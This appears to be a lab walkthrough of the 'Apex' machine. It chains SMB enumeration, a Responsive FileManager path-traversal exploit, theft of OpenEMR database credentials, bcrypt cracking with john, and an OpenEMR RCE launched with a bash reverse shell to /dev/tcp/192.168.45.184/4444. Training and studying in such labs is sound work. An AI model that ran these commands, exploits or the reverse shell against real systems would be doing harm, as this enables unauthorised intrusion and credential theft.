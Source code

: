 # Apex

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.183.145
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-11 22:07 +08
Nmap scan report for 192.168.183.145
Host is up (0.17s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
445/tcp  open  microsoft-ds
3306/tcp open  mysql
```

Interesting ports open.&#x20;

### SMB Enumeration

Using `smbmap`, we can find some shares that are open.

```
$ smbmap -H 192.168.183.145              
[+] Guest session       IP: 192.168.183.145:445 Name: 192.168.183.145                                   
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        docs                                                    READ ONLY       Documents
        IPC$                                                    NO ACCESS       IPC Service (APEX server (Samba, Ubuntu))
```

The `docs` share just had some files related to OpenEMR:

```
$ smbclient -N //192.168.183.145/docs        
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Apr  9 23:47:12 2021
  ..                                  D        0  Fri Apr  9 23:47:12 2021
  OpenEMR Success Stories.pdf         A   290738  Fri Apr  9 23:47:12 2021
  OpenEMR Features.pdf                A   490355  Fri Apr  9 23:47:12 2021
```

### Web Enumeration --> FileManager LFI

Port 80 shows a medical website:

<figure><img src="../../../.gitbook/assets/image (3013).png" alt=""><figcaption></figcaption></figure>

SMB enumeration revealed that this website might be running a vulnerable version of OpenEMR, and there are quite a few RCE exploits for OpenEMR.

However, most of these require credentials. I scanned the website for potential directories to other services, and found a File Manager using `gobuster`:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.183.145 -t 100      
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.183.145
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/07/11 22:11:27 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 319] [--> http://192.168.183.145/assets/]
/thumbs               (Status: 301) [Size: 319] [--> http://192.168.183.145/thumbs/]
/source               (Status: 301) [Size: 319] [--> http://192.168.183.145/source/]
/filemanager          (Status: 301) [Size: 324] [--> http://192.168.183.145/filemanager/]
```

When we visit `/filemanager`, we can see that it is running Responsive FileManager:

<figure><img src="../../../.gitbook/assets/image (201).png" alt=""><figcaption></figcaption></figure>

There are a few exploits related to this:

```
$ searchsploit responsive FileManager
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Responsive Filemanager 9.13.1 - Server-Side Request Forger | linux/webapps/45103.txt
Responsive FileManager 9.13.4 - 'path' Path Traversal      | php/webapps/49359.py
Responsive FileManager 9.13.4 - Multiple Vulnerabilities   | php/webapps/45987.txt
Responsive FileManager < 9.13.4 - Directory Traversal      | php/webapps/45271.txt
----------------------------------------------------------- ---------------------------------
```

The LFI works!

```
$ python3 49359.py http://192.168.183.145 PHPSESSID=86a4n0gbbc9klrmvq461tnfk8n /etc/passwd
[*] Copy Clipboard
[*] Paste Clipboard
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
<TRUNCATED>
```

### SQL Creds --> RCE

Since we have LFI, we can try reading the SQL credentials that are present within OpenEMR (based on reading the OpenEMR Github repository).&#x20;

{% embed url="https://github.com/openemr/openemr/blob/master/sites/default/sqlconf.php" %}

```
$ python3 49359.py http://192.168.183.145 PHPSESSID=86a4n0gbbc9klrmvq461tnfk8n /var/www/openemr/sites/default/sqlconf.php 
[*] Copy Clipboard
[*] Paste Clipboard
```

There was something blocking us from reading PHP files here, and its probably the `.htaccess` file. Within the FileManager instance, I noticed that the same PDFs on SMB were present within it.

<figure><img src="../../../.gitbook/assets/image (1510).png" alt=""><figcaption></figcaption></figure>

The LFI exploit copies and pastes files into directories, and this means that we should be able to read the file from the SMB share. We just need to modify the `paste_clipboard` function within the exploit:

<figure><img src="../../../.gitbook/assets/image (2875).png" alt=""><figcaption></figcaption></figure>

After changing the directories a few times, I got it within the SMB share:

```
$ python3 49359.py http://192.168.183.145 PHPSESSID=86a4n0gbbc9klrmvq461tnfk8n /var/www/openemr/sites/default/sqlconf.php
[*] Copy Clipboard
[*] Paste Clipboard

$ smbclient -N //192.168.183.145/docs
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Jul 11 22:30:24 2023
  ..                                  D        0  Tue Jul 11 22:20:07 2023
  sqlconf.php                         N      639  Tue Jul 11 22:30:24 2023
  OpenEMR Success Stories.pdf         A   290738  Fri Apr  9 23:47:12 2021
  OpenEMR Features.pdf                A   490355  Fri Apr  9 23:47:12 2021
```

Here's its contents:

```php
$ cat sqlconf.php   
<?php
//  OpenEMR
//  MySQL Config

$host   = 'localhost';
$port   = '3306';
$login  = 'openemr';
$pass   = 'C78maEQUIEuQ';
$dbase  = 'openemr';
```

Now we have some SQL creds, we can login to the database present.&#x20;

<figure><img src="../../../.gitbook/assets/image (606).png" alt=""><figcaption></figcaption></figure>

We can then find the credentials for OpenEMR:

```
MariaDB [openemr]> select * from users_secure;
+----+----------+--------------------------------------------------------------+--------------------------------+---------------------+-------------------+---------------+-------------------+---------------+
| id | username | password                                                     | salt                           | last_update         | password_history1 | salt_history1 | password_history2 | salt_history2 |
+----+----------+--------------------------------------------------------------+--------------------------------+---------------------+-------------------+---------------+-------------------+---------------+
|  1 | admin    | $2a$05$bJcIfCBjN5Fuh0K9qfoe0eRJqMdM49sWvuSGqv84VMMAkLgkK8XnC | $2a$05$bJcIfCBjN5Fuh0K9qfoe0n$ | 2021-05-17 10:56:27 | NULL              | NULL          | NULL              | NULL          |
+----+----------+--------------------------------------------------------------+--------------------------------+---------------------+-------------------+---------------+-------------------+---------------+
1 row in set (0.176 sec)
```

This hash can be cracked using `john`:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash     
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thedoctor        (?)     
1g 0:00:00:06 DONE (2023-07-11 22:36) 0.1474g/s 6430p/s 6430c/s 6430C/s versus..telmo
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Afterwards, we can run the RCE exploit for OpenEMR:

{% code overflow="wrap" %}
```
$ python2 45161.py -u admin -p thedoctor -c 'bash -i >& /dev/tcp/192.168.45.184/4444 0>&1' http://192.168.183.145/openemr
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (94).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

The `root` user has the same password as the MySQL database of `thedoctor`:

<figure><img src="../../../.gitbook/assets/image (2575).png" alt=""><figcaption></figcaption></figure>
